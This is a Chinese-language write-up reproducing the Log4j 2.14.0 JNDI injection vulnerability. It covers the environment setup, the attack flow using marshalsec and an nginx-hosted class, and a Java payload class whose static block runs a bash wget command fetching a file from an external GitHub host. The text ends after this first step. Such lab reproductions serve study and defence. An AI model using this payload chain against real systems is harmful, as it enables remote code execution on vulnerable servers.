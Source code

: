 # log4j-2.14.0漏洞攻击复现

​     刚知道log4j漏洞的时候，我就在自己负责的项目里简单测试了一下，没有测试出来也就没有再关注这个了。接下来几天的时间无论是朋友圈、聊天群、技术论坛都是在讨论这个话题的，成功引起了我的好奇，我就想复现一下这个漏洞。刚开始复现的时候为图省事我就创建了一个springboot项目，在springboot项目里无论我怎么测试都复现不了这个，然后我有怀疑是因为jdk的版本原因我使用的是jdk11，我更换了很多版本的jdk还是复现不了，直到我看到了一位大佬发布的帖子[Spring Boot应对Log4j2注入漏洞官方指南](https://blog.csdn.net/qq_35067322/article/details/121882240)中有这么一段话:

> **Spring Boot默认日志组件是logback，开发者通过日志门面Slf4j进行集成对接。Spring Boot 用户只有在将默认日志系统切换到 Log4J2 时才会受到此漏洞的影响。Spring Boot包含的log4j-to-slf4j和log4j-api、spring-boot-starter-logging不能独立利用。只有log4j-core在日志消息中使用和包含用户输入的应用程序容易受到攻击。**

简单一句话在springboot默认配置中是不会触发这个漏洞的，而我为了图省事用的就是默认配置。接下来我创建了一个maven项目成功复现了这个漏洞。我把自己复现的过程记录下来，分享给大家。

##  **环境准备**:

|                         软件                         |          版本           |                       描述                       |                           下载地址                           |
| :--------------------------------------------------: | :---------------------: | :----------------------------------------------: | :----------------------------------------------------------: |
|                        CentOS                        | 8.3.2011-x86_64-minimal |                  liunx操作系统                   | 链接: https://pan.baidu.com/s/1pG549BKWhbveM_Pvgj595g 提取码: iur3 |
|                         Idk                          |        1.8.0_312        |                       Java                       | 链接: https://pan.baidu.com/s/1jWUd1EjQnC5yybLiJlD9OA 提取码: knc7 |
| [marshalsec](https://github.com/mbechler/marshalsec) |          0.0.3          | java工具将数据转化为代码执行（这里是我编译好的） | 链接: https://pan.baidu.com/s/1M-qLRpb8C3DWtVG9BNojdg 提取码: mc7c |

## **攻击流程：**

1. 编写java攻击代码。
2. 将编写的攻击代码编译成class文件，然后发布到文件服务器。这里我是用nginx做演示。
3. [marshalsec](https://github.com/mbechler/marshalsec)使用将编写的class用jndi发布出去。
4. 本地测试触发。



## 开始实现：

**第一步：编写攻击代码** 

```import java.lang.Runtime;
import java.lang.Runtime;
import java.lang.Process;

/**
 * @author fuping
 */
public class Attack {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
			System.out.println("wget 下载图片");
            String[] commands = {"/bin/bash", "-c", "wget https://raw.githubusercontent.com/duzhaosongyue/img/main/1.png"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```
